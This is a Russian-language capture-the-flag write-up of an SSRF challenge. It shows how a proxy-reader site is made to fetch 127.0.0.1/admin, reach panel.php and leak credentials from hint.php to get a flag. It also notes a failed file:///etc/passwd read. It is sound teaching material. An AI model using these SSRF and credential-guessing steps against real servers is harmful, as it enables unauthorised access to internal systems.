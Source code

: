 # Прокси: Write-up #
Попадая на сайт, видим поле для ввода ссылки и несколько тестовых ссылок. Судя по всему, сайт просто выводит документы, ссылки на которых мы указываем. Попробуйте написать `https://google.com`. 
А вот системные файлы не читаются, так что никаких `file:///etc/passwd`. А жаль...

Судя из описания таска, где-то нужно получить доступ. На сайтах доступ к тем или иным разделам может регулироваться через файл `robots.txt`, который мы откроем: `http://62.173.140.174:16010/robots.txt`

    Disallow: /admin/

Ага, уже что-то интересное. Попытки самим открыть этот раздел безуспешны - на нас распространяется ограничение. Если попытаться открыть через сайт, то результат будет тот же.

Видимо, никто, кроме самого сервера, не сможет его открыть. Погодите-ка... А пусть в эту поисковую строку полезет `http://127.0.0.1/admin`!
Тогда сервер будет обращаться к самому себе, но как сервер, а не как сторонний клиент! И вот, что мы видим:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
  </head>
  <body> Срочные задачи для дальнейшего развития проекта: <br>
    1. Сделать прототип прокси-читалки (Сделано) <br>
    2. Добавить админку в robots.txt (Сделано) <br>
    3. Добавить ограничение по IP к админке (Сделано) <br>
    4. Доработать отображение текста в читалке (НЕ сделано) <br>
    5. Добавить авторизацию на все страницы админки (НЕ сделано) <br>
    6. Сменить HTTP-метод авторизации на panel.php (НЕ сделано) <br>
  </body>
</html>
```

Насчёт пункта 3 вопросов нет - сделано просто шикарно)) Но нас интересует пункт 6. Видимо, в разделе `admin` есть `panel.php`, но т.к. на этот раздел у нас ограничение, то открываем его через читалку: `http://127.0.0.1/admin/panel.php`

```html
Для того, чтобы получить доступ введите имя пользователя и пароль!
<form method="GET" action="/admin/panel.php">
  <input type="text" name="username">
  <input type="password" name="password">
</form>
```
Пробуем подобрать креды: `http://127.0.0.1/admin/panel.php?username=admin&password=admin`

```html

Аутенфикация провалена! Проверьте вводимые данные! <br>
Подсказка пароля: <a href='/admin/hint.php'>нажмите сюда</a>
<form method="GET" action="/admin/panel.php">
  <input type="text" name="username">
  <input type="password" name="password">
</form>
```
Теперь тем же способом лезем в `hint.php`

    admin:h4ck3rcr4cker

Опа, вот и креды. Логинимся и получаем вкусняшку: `CODEBY{d0_u_l1ke_ssrf?}`
